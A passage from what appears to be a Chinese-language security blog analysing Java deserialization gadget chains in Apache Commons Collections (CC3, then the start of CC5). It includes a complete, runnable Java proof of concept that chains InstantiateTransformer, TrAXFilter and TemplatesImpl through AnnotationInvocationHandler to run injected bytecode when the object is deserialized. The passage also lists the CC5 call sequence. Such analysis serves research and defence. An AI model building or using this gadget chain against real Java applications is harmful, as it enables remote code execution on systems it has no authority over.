 当然，缺少了 InvokerTransformer，TrAXFilter 的构造方法也是无法调用的。通过利用 `org.apache.commons.collections.functors.InstantiateTransformer` 中的 `InstantiateTransformer` 调用构造方法。

所以，最终的目标是，利用 `InstantiateTransformer` 来调用到 `TrAXFilter` 的构造方法，再利用其构造方法里的 `templates.newTransformer()` 调用到 `TemplatesImpl` 里的字节码。

构造的 Transformer 调用链如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```java<br>Transformer[] transformers = new Transformer[]{<br>    new ConstantTransformer(TrAXFilter.class),<br>    new InstantiateTransformer(new Class[] { Templates.class }, new Object[] { obj })<br>};<br>``` |

最终也是可以成功触发的：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108311053530.png-water_print](assets/1699411658-ae00a78a2df73d47f77ea829bfdb21ad.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108311053530.png-water_print")

警告

这个 POC 和 CC1 也有同样的问题，就是只支持 Java 8u71 及以下版本。

完整的反序列化过程如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>59<br>60<br>61<br>62<br>63<br>64<br>65<br>66<br>67<br>68<br>69<br>``` | ```java<br>package com.geekby.cc3test;<br><br><br>import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;<br>import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;<br>import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;<br>import org.apache.commons.collections.Transformer;<br>import org.apache.commons.collections.functors.ChainedTransformer;<br>import org.apache.commons.collections.functors.ConstantTransformer;<br>import org.apache.commons.collections.functors.InstantiateTransformer;<br>import org.apache.commons.collections.functors.InvokerTransformer;<br>import org.apache.commons.collections.map.TransformedMap;<br><br>import javax.xml.transform.Templates;<br>import java.io.ByteArrayInputStream;<br>import java.io.ByteArrayOutputStream;<br>import java.io.ObjectInputStream;<br>import java.io.ObjectOutputStream;<br>import java.lang.annotation.Retention;<br>import java.lang.reflect.Constructor;<br>import java.lang.reflect.Field;<br>import java.nio.file.Files;<br>import java.nio.file.Paths;<br>import java.util.HashMap;<br>import java.util.Map;<br><br>public class CC3Original {<br>    public static void main(String[] args) throws Exception {<br>        byte[] code = Files.readAllBytes(Paths.get("/Volumes/MacOS/WorkSpace/JAVA/ClassLoaderVuln/http/HelloTemppaltesImpl.class"));<br><br>        TemplatesImpl obj = new TemplatesImpl();<br>        setFieldValue(obj, "_bytecodes", new byte[][] {code});<br>        setFieldValue(obj, "_name", "HelloTemplatesImpl");<br>        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());<br><br>        Transformer[] transformers = new Transformer[]{<br>                new ConstantTransformer(TrAXFilter.class),<br>                new InstantiateTransformer(new Class[] { Templates.class }, new Object[] { obj })<br>        };<br><br>        Transformer transformerChain = new ChainedTransformer(transformers);<br><br>        Map innerMap = new HashMap();<br>        innerMap.put("value","Geekby");<br>        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);<br><br>        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");<br>        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);<br>        construct.setAccessible(true);<br>        Object res = construct.newInstance(Retention.class, outerMap);<br>			// 序列化<br>        ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(barr);<br>        oos.writeObject(res);<br>        oos.close();<br><br>        // 反序列化<br>        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));<br>        ois.readObject();<br>    }<br><br><br><br>    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {<br>        Field field = obj.getClass().getDeclaredField(fieldName);<br>        field.setAccessible(true);<br>        field.set(obj, value);<br>    }<br>}<br>``` |

## [](#3-commonscollections-5-gadget-%E5%88%86%E6%9E%90)3 CommonsCollections 5 Gadget 分析

CC5 的调用链：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```fallback<br>->BadAttributeValueExpException.readObject()<br>      ->TiedMapEntry.toString()<br>          ->TiedMapEntry.getValue()<br>            ->LazyMap.get()<br>                ->ChainedTransformer.transform()<br>                    ->ConstantTransformer.transform()<br>                            ->InvokerTransformer.transform()<br>                                ->…………<br>``` |
